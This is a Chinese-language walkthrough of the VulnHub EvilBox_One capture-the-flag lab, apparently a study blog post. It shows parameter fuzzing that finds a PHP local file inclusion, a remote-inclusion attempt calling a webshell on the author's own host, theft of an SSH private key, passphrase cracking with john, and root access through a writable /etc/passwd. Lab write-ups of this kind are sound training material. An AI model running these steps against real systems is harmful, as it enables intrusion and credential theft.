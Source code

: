 ```yaml
---
title: Chapter6_Easy_EvilBox_One
categories:
- Network_Security
- Vulnhub
- Chapter6
tags:
- Network_Security
- Vulnhub
date: 2024-02-02 14:20:38
---
```


# EvilBox_One 学习记录

## 1. 粗略学习记录

### 1.1 扫描打点 - PHP LFI

1. kali 自带的 fping 扫描
    `fping -gaq ip/cidr # g--generate a--alive q--quiet`
    ![image-20240201120011124](image-20240201120011124.png)

2. 扫描端口：
    ![image-20240201120047911](image-20240201120047911.png)

3. 路径爆破：
    ![image-20240201131818180](image-20240201131818180.png)
    尝试新工具：gobuster。
    gobuster 除了路径爆破，还会探测 CDN。其是用 go 语言编写的。
    `gobuster dir -u http://192.168.0.105 -w /usr/share/seclists/Discovery/Web-Content/directory-list-1.0.txt -x txt,php,html,jsp`
    ![image-20240201133031374](image-20240201133031374.png)

4. 访问一下，robots.txt 给了一串不明意义的字符串：`H4x0r`。/secret 访问是空白。
    ![image-20240201132104426](image-20240201132104426.png)

5. /secret 是新的路径，那么更换目标，再在 /secret 下进行目录爆破：
    ![image-20240201133327362](image-20240201133327362.png)

6. 访问 evil.php，结果还是空白。这时就要考虑进行参数爆破。除了 Burpsuite，这里使用 ffuf：
    `ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:param -w value.txt:value -u http://192.168.0.105/secret/evil.php?param=value -fs 0`，其中 value.txt 自己编辑，由常见的字符和符号组成。`-fs 0` 表示过滤掉页面为空的结果。是用的是 Burpsuite 的字典。
    ![image-20240201140607609](image-20240201140607609.png)
    结果没有结果。
    考虑是 PHP，往文件包含的思路靠拢，修改 value。
    `ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:param -u http://192.168.0.105/secret/evil.php?param=../index.html -fs 0`
    结果是有结果了：
    ![image-20240201141210002](image-20240201141210002.png)

7. 猜测是有文件包含漏洞，使用伪协议来读取 evil.php 的内容：
    ![image-20240201141536379](image-20240201141536379.png)
    解码后为：

    ```php
    <?php
        $filename = $_GET['command'];
        include($filename);
    ?>
    ```

8. 考虑 RFI 远程文件包含，在 kali 的 `/var/www/html` 下新建一句话，然后开启 apache2 服务：`systemctl start apache2`。访问：`evil.php?command=http://192.168.0.2/webshell.php?webshell=ls`。结果没有返回。因此目标可能只有 LFI 本地文件包含。

9. 试了一下 `input`，发现不能执行 PHP 代码。说明 `allow_url_include = false`。同样的 `filter` 也写入失败。

### 1.2 拿到 Shell - SSH 的公钥认证体系

1. 查看账户文件，有用户 mowree，使用 `ssh mowree@192.168.0.105 -v` 查看其可以登录的方式，结果有新发现：
    ![image-20240201145439517](image-20240201145439517.png)
    密码用 H4x0r 不行。这里看出有公钥的认证方式，因此思路就是：通过 SSH 公钥登录的用户，其主目录的 `.ssh/authorized` 中一般会有登录者的公钥。尝试访问：
    `command=/home/mowree/.ssh/authorized_keys`。结果如下：
    `ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDAXfEfC22Bpq40UDZ8QXeuQa6EVJPmW6BjB4Ud/knShqQ86qCUatKaNlMfdpzKaagEBtlVUYwit68VH5xHV/QIcAzWi+FNw0SB2KTYvS514pkYj2mqrONdu1LQLvgXIqbmV7MPyE2AsGoQrOftpLKLJ8JToaIUCgYsVPHvs9Jy3fka+qLRHb0HjekPOuMiq19OeBeuGViaqILY+w9h19ebZelN8fJKW3mX4mkpM7eH4C46J0cmbK3ztkZuQ9e8Z14yAhcehde+sEHFKVcPS0WkHl61aTQoH/XTky8dHatCUucUATnwjDvUMgrVZ5cTjr4Q4YSvSRSIgpDP2lNNs1B7 mowree@EvilBoxOne`

2. 根据 SSH 公钥认证的流程，需要一台电脑创建 RSA 的公钥和私钥，其中公钥由服务器保管，私钥分发给授权的用户。如果 SSH 配对的公私钥是服务器创建的，那么其默认的私钥保存地址就是 `.ssh/id_rsa`，而公钥是 `.ssh/id_rsa.pub`。尝试访问 `.ssh/id_rsa`，结果如下：
    ![image-20240201151805457](image-20240201151805457.png)

3. 复制下来，先赋予权限：
    `chmod 600`。
    登录：
    `ssh mowree@192.168.0.105 -i id_rsa`

4. 然后还需要 passphrase，即私钥的密码。这个无法获取，因此考虑爆破：
    ```bash
    cp /usr/share/wordlists/rockyou.txt.gz . # 用这个密码文件来爆破
    gunzip rockyou.txt.gz # 解压
    cd /usr/share/john
    ./ssh2john.py /home/hacker/id_rsa > /home/hacker/桌面/hash # 将密钥文件进行处理，变成可以被 john 工具使用的文件。
    john /home/hacker/桌面/hash --wordlist=/home/hacker/桌面/rockyou.txt
    ```

    成功破解：
    ![image-20240201153517595](image-20240201153517595.png)
    尝试登录，成功！

5. 拿到第一个 flag：
    ![image-20240201154346570](image-20240201154346570.png)

### 1.3 提权 - 文件配置不当

1. 提权，常见的方法都不行。最终考虑一些可编辑的脚本文件，其执行时以 root 权限执行：
    ```bash
    find / -writable 2>/dev/null
    find / -writable 2>/dev/null | grep -v proc # 结果过滤
    ```

    最终发现异常：
    ![image-20240201160102054](image-20240201160102054.png)
    ![image-20240201160224501](image-20240201160224501.png)

2. 那最终目标就是操作 passwd 文件。一个方向就是修改 passwd，将 root 的密码占位符 `x` 换成自己生成的加盐密码，或者新建一个属于 root 组的账号。
    ![image-20240201161007238](image-20240201161007238.png)

    ![image-20240201161858594](image-20240201161858594.png)然后将这个密文复制并覆盖，这时影子文件中的密码将会失效。

3. 获取 flag：
    ![image-20240201161713975](image-20240201161713975.png)

4. 也可以通过建立账户来实现：
    `hacker:$1$ZY4xtyhY$aSKuj8Y8nbqvlYToyAsw9/:0:0:root:/root:/bin/bash` 写入。
    然后登录 hacker 即可。

## 2. 要点总结

1. 新主机发现工具 fping。
2. 新路径爆破工具 gobuster。
3. “子路径爆破”的思想。
4. 参数爆破工具 ffuf 与“参数爆破”的思想
5. SSH 公钥体系的渗透，SSH 公钥体系认证流程，私钥密码爆破。
6. /etc/passwd 文件的属性。
